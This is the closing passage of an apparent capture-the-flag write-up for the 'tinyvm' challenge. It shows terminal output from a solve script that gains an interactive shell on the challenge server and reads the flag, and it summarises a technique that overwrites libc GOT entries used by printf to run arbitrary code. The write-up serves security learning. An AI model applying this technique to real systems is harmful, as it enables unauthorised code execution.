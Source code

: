 ```asm
```

### Running the exploit

```c
➜  /media/sf_D_DRIVE/rwctf/tinyvm git:(master) ✗ ./solve.py REMOTE
[*] '/media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 198.11.180.84 on port 6666: Done
[*] Switching to interactive mode
 $ cat /flag
rwctf{A_S1gn_In_CHllenge}
```

All files can be found [here](https://github.com/rivit98/ctf-writeups/tree/master/2022/realworld_ctf/tinyvm).

## Summary

Overall, this was a nice challenge, and it wasn't hard. The main takeaway is that libc GOT can be used to call arbitrary code because `printf` function is using some of GOT entries internally. 
